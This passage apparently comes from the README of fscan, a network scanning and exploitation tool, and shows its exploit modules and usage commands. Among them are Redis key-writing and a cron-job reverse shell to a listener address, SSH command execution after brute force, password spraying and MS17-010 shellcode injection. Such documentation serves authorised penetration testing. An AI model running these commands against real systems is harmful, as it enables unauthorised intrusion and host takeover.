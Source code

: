 ## 5. 漏洞利用模块
- Redis利用：支持写入公钥或植入计划任务
- SSH远程执行：提供SSH命令执行功能
- MS17-010利用：支持ShellCode注入，可实现添加用户等操作

## 6. 辅助功能
- 扫描结果存储：将所有检测结果保存至文件，便于后续分析

# 0x03 使用说明
## 基础用法
```bash
# 默认扫描(使用全部模块)
fscan.exe -h 192.168.1.1/24

# B段扫描
fscan.exe -h 192.168.1.1/16
```

## 进阶用法

### 扫描控制
```bash
# 跳过存活检测、不保存文件、跳过web poc扫描
fscan.exe -h 192.168.1.1/24 -np -no -nopoc

# 指定扫描结果保存路径
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt

# 从文件导入目标
fscan.exe -hf ip.txt
```

### 特定功能
```bash
# Redis利用
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub    # 写公钥
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666    # 计划任务反弹shell

# SSH操作
fscan.exe -h 192.168.1.1/24 -c whoami    # SSH爆破成功后执行命令

# 密码爆破
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt    # 指定用户名密码文件
fscan.exe -h 192.168.1.1/24 -m smb -pwd password    # SMB密码碰撞
```

### 代理设置
```bash
# HTTP代理
fscan.exe -u http://baidu.com -proxy 8080

# SOCKS5代理
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080
```

